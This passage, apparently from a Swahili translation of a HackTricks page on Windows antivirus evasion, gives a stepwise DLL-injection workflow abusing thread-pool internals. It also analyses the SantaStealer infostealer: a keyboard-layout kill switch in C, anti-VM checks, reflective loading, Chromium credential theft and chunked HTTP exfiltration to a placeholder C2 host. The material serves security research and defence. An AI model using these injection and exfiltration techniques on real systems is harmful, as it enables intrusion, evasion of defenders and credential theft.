Kwenye Windows x64, worker hupitisha pointer ya `TP_CALLBACK_INSTANCE` iliyoko kwenye stack yake kupitia `RCX`, ambayo ni argument ya kwanza ya callback. `LoadLibraryA` hutafsiri pointer hiyo hiyo kama `LPCSTR`. Kwenye njia iliyojaribiwa, `TppWorkerThread` huunda pointer kwenye `RSP+0x178`, ilhali uandishi wake wa kwanza wa kawaida kwenye object hiyo hufanyika kwenye `RSP+0x1d0`. Kwa hiyo, njia ya DLL iliyoishia na null na inayotoshea ndani ya prefix hii ya baiti `0x58` inaweza kuwekwa mwanzoni mwa instance bila kufutwa kabla ya dispatch. Huu ni uchunguzi mahususi kwa build, si dhamana ya ABI ya Windows iliyoandikwa rasmi.<sup>[[46]](#references)[[47]](#references)</sup>

Utiririko wa kazi wa rejea ni:<sup>[[46]](#references)[[47]](#references)</sup>

1. Orodhesha handles za target kwa kutumia `NtQuerySystemInformation(SystemHandleInformation)` na utambue `TpWorkerFactory` kwa kuuliza aina za object. Nakili handle ya worker-factory na uulize `WorkerFactoryBasicInformation`; `StartParameter` hutoa `TP_POOL` ya mbali. Ruka factories ambazo `TotalWorkerCount == 0`.
2. Soma `TP_POOL.CompletionPort` na ufuate orodha ya worker ya ndani ya pool. Kwenye build ya Windows 10 19045 x64 iliyojaribiwa (`ntdll.dll 10.0.19041.4842`), kichwa chake kiko kwenye `pool+0x60`; kila kiungo kiko kwenye `worker+0x10`, kwa hiyo nafasi ya callback-instance kwenye `worker+0x38` ni sawa na `link+0x28`. PoC hukagua upangaji wa pointer, ulinganifu wa viungo, umiliki wa pool, thread ID zisizo sifuri, node zilizorudiwa na kichwa thabiti cha orodha.
3. Andika njia ya DLL kwenye nafasi **zote** za worker zilizopatikana kwa sababu completion iliyowekwa kwenye foleni inaweza kuchukuliwa na worker yeyote. Weka `TP_DIRECT` kwenye kumbukumbu ya target inayoweza kuandikwa. PoC hutumia `last_slot-0x500` kwenye stack ya worker badala ya `VirtualAllocEx`; offseti hiyo ni ya majaribio na haipaswi kugongana na data ya stack inayotumika.
4. Nakili handle ya completion-port ya target na uite `ZwSetIoCompletion(port, remote_direct, 0, 0, 0)`. Anwani ya `TP_DIRECT` ya mbali ndiyo completion key. Worker aliyepo kisha huita `LoadLibraryA` kwa kutumia pointer ya callback-instance iliyobadilishwa na kupakia DLL ambayo target inaweza kuifikia.

PoC hupokea PID ya target (`DLLParty.exe <target_pid>`) na hutumia njia ya DLL iliyowekwa moja kwa moja ndani ya `DLLParty.cpp`; weka njia inayoweza kufikiwa na target kabla ya kuunda executable ya x64. Pia hutumia anwani ya `LoadLibraryA` ya process yake kama callback ya mbali, kwa hiyo hudhani anwani hiyo ni halali kwenye target. Msimbo haukagui urefu wa njia dhidi ya prefix ya baiti `0x58`, wala haukagui kama ufuatiliaji wa worker ulipata nafasi kabla ya kuorodhesha element ya mwisho. Hakiki upya offseti za ndani, mpangilio wa stack na nafasi inayoweza kuandikwa kwa build ya target. Kutotumia `CreateRemoteThreadEx`, shellcode na `VirtualAllocEx` hakuondoi uandishi kati ya process wala telemetry ya upakiaji wa DLL.<sup>[[46]](#references)[[47]](#references)</sup>

## Mbinu za SantaStealer za Kukwepa Utambuzi Bila Faili na Kuiba Sifa za Kuingia

SantaStealer (pia huitwa BluelineStealer) inaonyesha jinsi info-stealers za kisasa zinavyochanganya AV bypass, anti-analysis na ufikiaji wa sifa za kuingia katika utiririko mmoja wa kazi.<sup>[[24]](#references)</sup>

### Uchujaji kwa mpangilio wa kibodi na ucheleweshaji wa sandbox

- Bendera ya usanidi (`anti_cis`) huorodhesha mipangilio ya kibodi iliyosakinishwa kupitia `GetKeyboardLayoutList`. Ikiwa mpangilio wa Cyrillic utapatikana, sampuli huunda alama tupu ya `CIS` na kusitisha kabla ya kuendesha stealers, kuhakikisha kwamba haijawahi kulipuka kwenye maeneo yaliyoondolewa huku ikiacha artifact ya uchunguzi.

```c
HKL layouts[64];
int count = GetKeyboardLayoutList(64, layouts);
for (int i = 0; i < count; i++) {
    LANGID lang = PRIMARYLANGID(HIWORD((ULONG_PTR)layouts[i]));
    if (lang == LANG_RUSSIAN) {
        CreateFileA("CIS", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
        ExitProcess(0);
    }
}
Sleep(exec_delay_seconds * 1000); // config-controlled delay to outlive sandboxes
```

### Mantiki ya `check_antivm` yenye tabaka

- Variant A hupitia orodha ya michakato, huhesabu hash ya kila jina kwa kutumia checksum maalum inayozunguka, kisha huilinganisha na orodha zilizopachikwa za debugger/sandbox; hurudia checksum hiyo kwenye jina la kompyuta na hukagua saraka za kufanya kazi kama `C:\analysis`.
- Variant B hukagua sifa za mfumo (kiwango cha chini cha idadi ya michakato, muda mfupi tangu mfumo uwashe), huita `OpenServiceA("VBoxGuest")` ili kutambua nyongeza za VirtualBox, na hukagua muda kabla na baada ya kusubiri ili kubaini single-stepping. Tukio lolote likigunduliwa, mchakato husitishwa kabla moduli hazijazinduliwa.

### Msaidizi asiyeacha faili + reflective loading ya ChaCha20 mara mbili

- DLL/EXE kuu hupachika msaidizi wa Chromium wa kupata taarifa za kuingia, ambao ama huandikwa kwenye diski au hupakiwa mwenyewe kwenye kumbukumbu; katika hali isiyoacha faili, hutatua imports/relocations yenyewe ili kusiandikwe faili zozote za msaidizi.
- Msaidizi huyo huhifadhi DLL ya hatua ya pili iliyosimbwa kwa ChaCha20 mara mbili (funguo mbili za baiti 32 + nonce za baiti 12). Baada ya kupitisha usimbaji huo mara mbili, hupakia blob hiyo kwa reflective loading (bila `LoadLibrary`) na kuita exports `ChromeElevator_Initialize/ProcessAllBrowsers/Cleanup` zilizotokana na [ChromElevator](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption).<sup>[[25]](#references)</sup>
- Ratiba za ChromElevator hutumia direct-syscall reflective process hollowing ili kujidunga kwenye kivinjari hai cha Chromium, kurithi funguo za AppBound Encryption, na kusimbua moja kwa moja nywila/cookies/kadi za benki kutoka kwenye hifadhidata za SQLite licha ya uimarishaji wa ABE.

### Ukusanyaji wa moduli ndani ya kumbukumbu na exfil ya HTTP kwa vipande

- `create_memory_based_log` hupitia jedwali la kimataifa la viashiria vya kazi `memory_generators` na kuanzisha thread moja kwa kila moduli iliyowashwa (Telegram, Discord, Steam, picha za skrini, nyaraka, viendelezi vya browser, n.k.). Kila thread huandika matokeo kwenye buffers zinazoshirikiwa na kuripoti idadi ya faili zake baada ya muda wa kusubiri wa takriban sekunde 45.
- Baada ya kumaliza, kila kitu hubanwa kwa kutumia maktaba ya `miniz` iliyounganishwa tuli na kuhifadhiwa kama `%TEMP%\\Log.zip`. `ThreadPayload1` kisha husubiri sekunde 15 na kutuma archive hiyo kupitia HTTP POST kwa vipande vya MB 10 kwenda `http://<C2>:6767/upload`, huku ikighushi mpaka wa browser wa `multipart/form-data` (`----WebKitFormBoundary***`). Kila kipande huongeza `User-Agent: upload`, `auth: <build_id>`, `w: <campaign_tag>` ya hiari, na kipande cha mwisho huongeza `complete: true` ili C2 ijue kuwa uunganishaji upya umekamilika.

## References

- [1] [Mbinu za Kina za Kukwepa: Precision Module Stomping](https://medium.com/@toneillcodes/advanced-evasion-tradecraft-precision-module-stomping-b51feb0978fe)
- [2] [toneillcodes/windows-process-injection](https://github.com/toneillcodes/windows-process-injection)
- [3] [Crystal Kit – blog](https://rastamouse.me/crystal-kit/)
- [4] [Crystal-Kit – GitHub](https://github.com/rasta-mouse/Crystal-Kit)
- [5] [Elastic – Call stacks, hakuna tena pasi za bure kwa malware](https://www.elastic.co/security-labs/call-stacks-no-more-free-passes-for-malware)
- [6] [Crystal Palace – nyaraka](https://tradecraftgarden.org/docs.html)
- [7] [simplehook – mfano](https://tradecraftgarden.org/simplehook.html)
- [8] [stackcutting – mfano](https://tradecraftgarden.org/stackcutting.html)
- [9] [Draugr – PIC ya kughushi call stack](https://github.com/NtDallas/Draugr)
- [10] [Unit42 – Mnyororo Mpya wa Maambukizi na Obfuscation ya ConfuserEx kwa DarkCloud Stealer](https://unit42.paloaltonetworks.com/new-darkcloud-stealer-infection-chain/)
- [11] [Synacktiv – Je, unapaswa kuamini zero trust yako? Kukwepa ukaguzi wa Zscaler wa hali ya kifaa](https://www.synacktiv.com/en/publications/should-you-trust-your-zero-trust-bypassing-zscaler-posture-checks.html)
- [12] [Check Point Research – Kabla ya ToolShell: Kuchunguza Operesheni za Awali za Ransomware za Storm-2603](https://research.checkpoint.com/2025/before-toolshell-exploring-storm-2603s-previous-ransomware-operations/)
- [13] [Hexacorn – DLL ForwardSideLoading: Kutumia Vibaya Exports Zilizopitishwa](https://www.hexacorn.com/blog/2025/08/19/dll-forwardsideloading/)
- [14] [Orodha ya Windows 11 ya Forwarded Exports (apis_fwd.txt)](https://hexacorn.com/d/apis_fwd.txt)
- [15] [Microsoft Learn – Mpangilio wa utafutaji wa Dynamic-link library](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)
- [16] [Microsoft Learn – Usalama wa michakato na haki za ufikiaji](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)
- [17] [Microsoft – Marejeo ya EKU (MS-PPSEC)](https://learn.microsoft.com/openspecs/windows_protocols/ms-ppsec/651a90f3-e1f5-4087-8503-40d804429a88)
- [18] [Sysinternals – Process Monitor](https://learn.microsoft.com/sysinternals/downloads/procmon)
- [19] [Kizindua cha CreateProcessAsPPL](https://github.com/2x7EQ13/CreateProcessAsPPL)
- [20] [Zero Salarium – Kukabiliana na EDR kwa Usaidizi wa Protected Process Light (PPL)](https://www.zerosalarium.com/2025/08/countering-edrs-with-backing-of-ppl-protection.html)
- [21] [Zero Salarium – Kuvunja Ganda la Kinga la Windows Defender kwa Mbinu ya Folder Redirect](https://www.zerosalarium.com/2025/09/Break-Protective-Shell-Windows-Defender-Folder-Redirect-Technique-Symlink.html)
- [22] [Microsoft – Marejeo ya amri ya mklink](https://learn.microsoft.com/windows-server/administration/windows-commands/mklink)
- [23] [Check Point Research – Chini ya Pazia Safi: Kutoka RAT hadi Builder hadi Coder](https://research.checkpoint.com/2025/under-the-pure-curtain-from-rat-to-builder-to-coder/)
- [24] [Rapid7 – SantaStealer Inakuja Mjini: Infostealer Mpya, Yenye Malengo Makubwa](https://www.rapid7.com/blog/post/tr-santastealer-is-coming-to-town-a-new-ambitious-infostealer-advertised-on-underground-forums)
- [25] [ChromElevator – Usimbuaji wa Chrome App Bound Encryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption)
- [26] [Check Point Research – GachiLoader: Kushinda Malware ya Node.js kwa Ufuatiliaji wa API](https://research.checkpoint.com/2025/gachiloader-node-js-malware-with-api-tracing/)
- [27] [Sleeping Beauty: Kumlaza Adaptix kwa Crystal Palace](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty/)
- [28] [SensePost – Uwekaji Sumu wa Vigezo vya Mchakato](https://sensepost.com/blog/2026/process-parameter-poisoning/)
- [29] [Orange Cyberdefense – p3-loader](https://github.com/Orange-Cyberdefense/p3-loader)
- [30] [Sleeping Beauty II: CFG, CET, na Kughaushi Stack](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty-ii)
- [31] [Obfuscation ya usingizi ya Ekko](https://github.com/Cracked5pider/Ekko)
- [32] [SysWhispers4 – GitHub](https://github.com/JoasASantos/SysWhispers4)
- [33] [blog.xpnsec.com - Kuficha Dotnet Etw Yako](https://blog.xpnsec.com/hiding-your-dotnet-etw)
- [34] [repnz/etw-providers-docs](https://github.com/repnz/etw-providers-docs)
- [35] [trustedsec.com - Kutumia Vibaya Chrome Remote Desktop katika Operesheni za Red Team: Mwongozo wa Vitendo](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide)
- [36] [Check Point Research - BTR Reforged: Kugeuza Driver ya Urekebishaji ya Defender kuwa Primitive ya Operesheni za Kernel](https://research.checkpoint.com/2026/btr-reforged-weaponizing-defenders-remediation-driver-as-a-kernel-operation-primitive/)
- [37] [Dump-GUY - BTR_CLI](https://github.com/Dump-GUY/BTR_CLI)
- [38] [Msimbo saidizi wa MDSec Function Peekaboo](https://github.com/mdsecactivebreach/functionpeekaboo)
- [39] [MDSec - Function Peekaboo: Kuunda Functions Zinazojificha Zenyewe kwa Kutumia LLVM](https://mdsec.co.uk/2025/10/function-peekaboo-crafting-self-masking-functions-using-llvm/)
- [40] [Microsoft Learn - VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)
- [41] [TwoSevenOneT - Chanzo cha InjectSetConsole](https://github.com/TwoSevenOneT/InjectSetConsole)
- [42] [Microsoft Learn - Function ya CreatePipe](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-createpipe)
- [43] [Microsoft Learn - Kuunda Mchakato Msaidizi wenye Ingizo na Matokeo Yaliyoelekezwa Upya](https://learn.microsoft.com/en-us/windows/win32/procthread/creating-a-child-process-with-redirected-input-and-output)
- [44] [Praetorian - GhostPack Necromancy: Kuunda Upya Zana za C# kwa WasmForge](https://praetorian.com/blog/wasmforge-csharp-ghostpack-edr-evasion)
- [45] [WasmForge - Ku-compile Miradi ya C# / .NET](https://github.com/praetorian-inc/wasmforge/blob/main/docs/CSHARP.md)
- [46] [Uthibitisho wa dhana na chanzo cha DLLParty](https://github.com/epersic/DLLParty)
- [47] [DLLParty — Kutumia Vibaya Internals za Thread Pool kwa DLL injection isiyotumia shellcode](https://medium.com/@persic.eno/dllparty-abusing-thread-pool-internals-for-shellcodeless-dll-injection-7c84106f7745)
- [48] [Seti ya data ya benchmark ya EMBER2024 na zana za thrember](https://github.com/FutureComputing4AI/EMBER2024)
- [49] [Kutumia EMBER2024 kutathmini red team implants](https://mez0.cc/posts/evaluating-implants-with-ember/)
- [50] [MSec Operations – Kukwepa Ugunduzi Unaotegemea Machine Learning](https://msecops.de/blog/posts/ml-evasion/)
- [51] [Kaspersky Securelist – Mfumo wa upakiaji wa .NET wa NetamLoader unaotegemea XAML](https://securelist.com/netamloader/121676)
- [52] [Microsoft Learn – Orodha ya AMSI_RESULT](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result)
- [53] [Microsoft Learn – Mbinu ya IAntimalware::Scan](https://learn.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-iantimalware-scan)
- [54] [Zscaler ThreatLabz - Uchambuzi wa kiufundi wa 2CLoader](https://zscaler.com/blogs/security-research/2cloader-new-malware-loader-delivering-vidar-and-remus)
- [55] [Muhtasari wa tprtdll-Injection na orodha ya exports](https://github.com/ivancabrera02/tprtdll-Injection/blob/main/README.md)
- [56] [PoC ya trusted-twin self-injection](https://github.com/ivancabrera02/tprtdll-Injection/blob/main/trustedtwin_self.cpp)
- [57] [PoC ya trusted-twin cross-process injection](https://github.com/ivancabrera02/tprtdll-Injection/blob/main/trustedtwin_cross.cpp)
{{#include ../banners/hacktricks-training.md}}
